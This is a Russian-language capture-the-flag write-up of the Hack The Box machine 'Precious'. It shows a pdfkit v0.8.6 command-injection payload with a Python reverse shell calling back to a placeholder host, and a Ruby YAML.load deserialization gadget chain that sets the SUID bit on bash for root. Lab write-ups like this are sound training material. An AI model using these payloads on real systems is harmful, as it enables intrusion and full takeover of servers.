# Precious

:white_check_mark:  [**Pdfkit_v0.8.6**](#Pdfkit_v0.8.6)

:white_check_mark:  [**YAML.load(privesc)**](#YAML.load(privesc))

___

## Port scan
Сканируем ip командой:
```
nmap -sC -sV precious.htb
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-server-header: 
|   nginx/1.18.0
|_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
|_http-title: Convert Web Page to PDF
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Page

Главная страница **precious.htb**:


На данной странице мы может обнаружить поле, в которое мы можем вписать URL. Запустим слушатель и отправим запрос на него.

```
http://10.10.xx.xx:YOUR-PORT
```



Нажав на кнопку "Submit", нас перебросит на новую вкладку с pdf документом.



Скачаем этот документ и исследуем с помощью exiftool. Мы можем заметить, что pdf документ создан с помощью pdfkit v0.8.6.



<a name="Pdfkit_v0.8.6"></a>

## Pdfkit exploit

Попробуем найти экплоит под данную версию ПО.

Пример экплоита мы можем найти на данном [сайте](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795).

Модифицируем найденный пример, чтобы получить обратную оболочку. Запускаем слушатель и вписываем команду в поле на сайте.

```
http://YOUR-IP/?name=#{'%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR-IP",YOUR-PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`'}
```



Получаем обратную оболочку.



## Getting user

В домашней директории пользователя ruby мы можем обнаружить нестандартную директорию **.bundle**.



В этой директории мы можем обнаружить файл с данными пользователя henry.


<a name="YAML.load(privesc)"></a>

## Privesc

Теперь зная пароль пользователя henry, подключимся к машине по ssh. Просмотрим права на выполнение от sudo при помощи команды **sudo -l**.



Прочтем файл **update_dependencies.rb**. В нем мы можем обнаружить использование функции **YAML.load**, которая может быть уязвима.



На данном [сайте](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/) найти пример эксплуатации данной уязвимости. 

Создадим файл, который используется для чтения, а именно **dependencies.yml**. Запишем в него следующий код.

```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve
```



На месте git_set мы используем нашу команду, чтобы повысить свои привилегии.

Затем нужно запустить файл **update_dependencies.rb**, который загрузит файл **dependencies.yml**.

```
sudo /usr/bin/ruby /opt/update_dependencies.rb
```



Теперь мы можем очень просто получить root, используя одну команду.

```
/usr/bin/bash -p
```



Мы получили root.